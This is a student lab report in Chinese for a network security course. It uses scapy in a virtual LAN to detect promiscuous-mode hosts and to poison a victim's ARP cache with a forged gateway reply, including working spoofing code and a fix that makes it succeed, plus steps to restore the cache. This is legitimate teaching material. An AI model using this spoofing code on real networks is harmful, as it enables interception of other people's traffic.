






## 实验四：网络拓扑

### **网络拓扑**





网络中的节点基本信息如下：

| id       | ip address   | mac address
| ---   | --- | --- |
| Debian-gateway   | 172.16.111.1/24 |  08:00:27:47:aa:70
|    kali-attacker    | 172.16.111.147/24   | 08:00:27:25:6c:52
| kali-victim-1|172.16.111.117/24|08:00:27:1e:72:79


### **实验准备**

**安装 scapy**

在攻击者主机上提前安装好 scapy 

```bash
# 安装 python3
sudo apt update && sudo apt install python3 python3-pip

# ref: https://scapy.readthedocs.io/en/latest/installation.html#latest-release
pip3 install scapy[complete]
```



### **实验一：检测局域网中的异常终端**

```bash
# 在受害者主机上检查网卡的「混杂模式」是否启用
ip link show eth0
```


```bash
# 在攻击者主机上开启 scapy
sudo scapy
```




```python
# 在 scapy 的交互式终端输入以下代码回车执行
pkt = promiscping("172.16.111.117")
```


```bash
# 回到受害者主机上开启网卡的『混杂模式』
# 注意上述输出结果里应该没有出现 PROMISC 字符串
# 手动开启该网卡的「混杂模式」
sudo ip link set eth0 promisc on

# 此时会发现输出结果里多出来了 PROMISC 
ip link show eth0
```




```python
# 回到攻击者主机上的 scapy 交互式终端继续执行命令
# 观察两次命令的输出结果差异
pkt = promiscping("172.16.111.117")
```


```bash
# 在受害者主机上
# 手动关闭该网卡的「混杂模式」
sudo ip link set eth0 promisc off
```
**PS：**

输出差异：在受害者主机未开启混杂模式前，攻击者主机收到`0 packet 0 answer`, 而开启后攻击者主机收到`1 packet 1 answer`。

### **实验二：手工单步“毒化”目标主机的 ARP 缓存**

以下代码在攻击者主机上的 scapy 交互式终端完成。

1.获取当前局域网的网关 MAC 地址

```python
# 构造一个 ARP 请求
arpbroadcast = Ether(dst="ff:ff:ff:ff:ff:ff")/ARP(op=1, pdst="172.16.111.1")

# 查看构造好的 ARP 请求报文详情
arpbroadcast.show()
```


```python
# 发送这个 ARP 广播请求
recved = srp(arpbroadcast, timeout=2)

# 网关 MAC 地址如下
gw_mac = recved[0][0][1].hwsrc
```



2.伪造网关的 ARP 响应包

```python
# 准备发送给受害者主机 172.16.111.117
# ARP 响应的目的 MAC 地址设置为攻击者主机的 MAC 地址
arpspoofed=ARP(op=2, psrc="172.16.111.1", pdst="172.16.111.117", hwdst="08:00:27:25:6c:52")

# 发送上述伪造的 ARP 响应数据包到受害者主机
sendp(arpspoofed)

```


此时在受害者主机上查看 ARP 缓存会发现网关的 MAC 地址已被「替换」为攻击者主机的 MAC 地址

```bash
ip neigh
```


3.恢复受害者主机的 ARP 缓存记录

```python
## 伪装网关给受害者发送 ARP 响应
restorepkt1 = ARP(op=2, psrc="172.16.111.1", hwsrc="08:00:27:47:aa:70", pdst="172.16.111.117", hwdst="08:00:27:25:6c:52")
sendp(restorepkt1, count=100, inter=0.2)
```





```bash
## 在受害者主机上尝试 ping 网关
ping 172.16.111.1
## 静候几秒 ARP 缓存刷新成功，退出 ping
## 查看受害者主机上 ARP 缓存，已恢复正常的网关 ARP 记录
ip neigh
```


### **遇到的问题与解决办法**

- 伪造网关的 ARP 响应包失败,在受害者主机上查看 ARP 缓存
    

   -   解决：将`arpspoofed=ARP(op=2, psrc="172.16.111.1", pdst="172.16.111.117", hwdst="08:00:27:25:6c:52")`改为`arpspoofed=Ether()/ARP(op=2, psrc="172.16.111.1", pdst="172.16.111.117", hwdst="08:00:27:25:6c:52")`即可


### **参考资料**

[老师的课件](https://c4pr1c3.github.io/cuc-ns/chap0x04/exp.html)